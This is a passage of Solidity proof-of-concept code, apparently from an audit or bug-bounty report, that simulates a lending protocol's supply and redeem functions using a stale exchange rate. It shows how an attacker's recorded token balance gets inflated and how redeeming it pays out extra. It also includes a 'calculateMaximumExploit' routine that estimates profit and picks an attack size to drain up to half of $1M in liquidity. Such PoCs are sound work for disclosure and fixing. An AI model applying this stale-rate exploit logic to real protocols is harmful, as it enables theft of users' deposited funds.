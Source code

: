 ```solidity
        console.log("\n--- SIMULATING VULNERABLE SUPPLY FUNCTION ---");
        
        // Step 1: Get stale exchange rate (VULNERABILITY)
        uint256 exchangeRateBefore = staleStoredRate; // exchangeRateStored()
        console.log("Using stale exchange rate:", exchangeRateBefore);
        
        // Step 2: Calculate tokens using stale rate (VULNERABILITY)
        recordedTokens = (ATTACK_AMOUNT * 1e18) / exchangeRateBefore;
        console.log("Calculated mintTokens with stale rate:", recordedTokens);
        
        // Step 3: What actually gets minted (using current rate)
        actualTokens = (ATTACK_AMOUNT * 1e18) / currentRate;
        console.log("Actually minted tokens (current rate):", actualTokens);
        
        // Step 4: The storage update uses the WRONG calculated amount
        console.log("Storage will record:", recordedTokens);
        console.log("But only", actualTokens, "were actually minted");
        
        return (recordedTokens, actualTokens);
    }
    
    function _simulateVulnerableRedeem(uint256 inflatedBalance) internal view returns (uint256 withdrawnAmount) {
        console.log("\n--- SIMULATING VULNERABLE REDEEM FUNCTION ---");
        
        // Attacker tries to redeem the inflated balance
        console.log("Attempting to redeem inflated balance:", inflatedBalance);
        
        // Step 1: Get stale exchange rate again (VULNERABILITY)
        uint256 exchangeRateBefore = staleStoredRate; // exchangeRateStored()
        console.log("Using stale exchange rate for calculation:", exchangeRateBefore);
        
        // Step 2: Calculate expected underlying using stale rate (VULNERABILITY)
        withdrawnAmount = (inflatedBalance * exchangeRateBefore) / 1e18;
        console.log("Calculated expectedUnderlying:", withdrawnAmount);
        
        // Step 3: This amount gets transferred to attacker
        console.log("Amount transferred to attacker:", withdrawnAmount);
        
        return withdrawnAmount;
    }
    
    function calculateMaximumExploit() external view returns (uint256 maxProfit, uint256 optimalAttackSize) {
        console.log("\n=== MAXIMUM EXPLOIT CALCULATION ===");
        
        // Calculate profit percentage
        uint256 profitPercentage = ((staleStoredRate - currentRate) * 1e18) / currentRate;
        console.log("Profit percentage per attack:", (profitPercentage * 100) / 1e18);
        
        // Assuming protocol has $1M liquidity
        uint256 protocolLiquidity = 1000000e18;
        optimalAttackSize = protocolLiquidity / 2; // Don't drain more than 50% at once
        
        maxProfit = (optimalAttackSize * profitPercentage) / 1e18;
        
        console.log("Protocol liquidity:", protocolLiquidity / 1e18);
        console.log("Optimal attack size:", optimalAttackSize / 1e18);
        console.log("Maximum single exploit profit:", maxProfit / 1e18);
        
        return (maxProfit, optimalAttackSize);
    }
    
```